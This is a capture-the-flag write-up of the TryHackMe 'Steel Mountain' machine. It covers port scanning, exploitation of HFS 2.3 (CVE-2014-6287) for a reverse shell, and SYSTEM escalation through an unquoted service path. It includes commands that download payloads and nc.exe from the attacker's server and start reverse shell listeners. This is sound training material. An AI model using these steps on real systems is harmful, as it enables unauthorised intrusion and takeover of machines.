 ```yaml
---
title: THM - Steel Mountain
date: 2022-07-23 22:09:00 +0200
categories: [Writeups]
tags: [tryhackme, tutorial]     # TAG names should always be lowercase
---
```



## Introduction
Steel Mountain refers to the data security firm where the protagonist Eliot tried to break into in the TV show Mr. Robot.
Opening a browser to this machine shows a simple html website showing a picture of the employee of the month.
Looking at the source code of the web page we get the answer to the first question: `<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>`


## Initial access
Running nmap TCP SYN scan shows that are a few more ports open:
```shell
$ sudo nmap -sS -T4 -Pn -p1-10000 <TARGET_IP>`
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 14:46 EDT
Nmap scan report for <TARGET_IP>
Host is up (0.025s latency).
Not shown: 9993 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy
```
Checking the other website running on TCP port 8080 reveals what seems to be an web app to browse system files.
The bottom left corner contains server information including a hyperlink [HTTP File Server 2.3](http://www.rejetto.com/hfs/) towards the open source project of the web app.

Searching Exploit-DB shows that HFS version 2.3 is vulnerable (CVE-2014-6287) to RCE.
The Metasploit Framework has the exploit included as well in `exploit/windows/http/rejetto_hfs_exec`.
Changing the module options (rhosts, rport, lhost, srvhost) results in a Meterpreter reverse TCP shell.

> Note that it took a few minutes after running the exploit until the Meterpreter Shell Prompt was ready.
{: .prompt-tip }

With the Meterpreter shell running we can start exploring. It seems the server is running Windows 2012 R2 and logged in with the Employee of the Month user as can be seen below.

```
meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
The first flag can be found on Bills' desktop `C:\Users\bill\Desktop>\user.txt`{: .filepath}


## Privilege escalation
Meterpreter has automated privilege escalation options such as using the builtin getsystem command.
However, this challenge explores different options by using the PowerUp.ps1 script provided by PowerShellMafia to find privilege escalation vectors.
After uploading the script to the victim machine it seems one service can be restarted by Bill and has an unquoted service file path as can be seen below:

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
```
The unquoted file path signifies the command is ambiguous, meaning its open to interpretation. The spaces are normally used to separate command arguments unless they are quoted.
The table below shows the order in which the command line will interpret it. Since the Iobit folder is writable by user Bill, we can create our own reverse shell payload and name it `Advanced.exe`.


| Command		| Argument 1 		| Argument 2		    | Argument 3	 	|
|:----------------------|:---------------------:|:-------------------------:|--------------------------:|
| C:\Program.exe	| Files  		| (x86)\Iobit\Advanced      | SystemCare\ASCService.exe
| C:\Program Files.exe  | (x86)\Iobit\Advanced  | SystemCare\ASCService.exe |				|
| C:\Program Files (x86)\Iobit\Advanced.exe | SystemCare\ASCService.exe |	|

Once the payload is written to `C:\Program Files (x86)\Iobit`{: .filepath}, we can start a listener on the attack machine and restart the service:
```console
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
```
We are now logged in as NT Authority/SYSTEM which is allowed to grab the root flag located at: `C:\Users\Administrator\Desktop\root.txt`{: .filepath}

## Access and Escalation without Metasploit
Although Metasploit is incredibly usefull, it is not a good practice to only rely on a single tool. Furthermore, Meterpreter is easily detected by modern AVs \[citation needed\].
The last task explores a more manual approach to hack the target machine. Once the provided exploit is downloaded we need to prepare it by adjusted the variables`ip_addr`, `local_port` with our own values of the attack machine.
As described in the comment section, we need to host a webserver while running the exploit to retrieve the nc.exe binary. 

Terminal window 1:
```shell
──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ mv 39161 exploit.py
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ chmod +x Exploit.py  
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python2 ./Exploit.py <TARGET_IP> 8080     
```

Terminal window 2:
```shell
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python3 -m http.server 80                                                                                                                                                                            1 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
<TARGET_IP> - - [24/Jul/2022 15:09:16] "GET /nc.exe HTTP/1.1" 200 -
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to <ATTACK_IP> from (UNKNOWN) <TARGET_IP>  49305
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

With the shell working we can download and run the WinPeas binary using PowerShell:
```console
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> powershell -c Invoke-WebRequest -Uri https://github.com/carlospolop/PEASS-ng/releases/download/20220724/winPEASx86.exe -Outfile "privesc.exe"

```
With the same web server running on the attack machine we can download the same reverse shell payload:
```console
powershell -c Invoke-WebRequest -Uri http://<ATTACKER_IP>/Advanced.exe -Outfile "Advanced.exe"
```
And repeat the same procedures from the last paragraph to obtain a high privileged shell!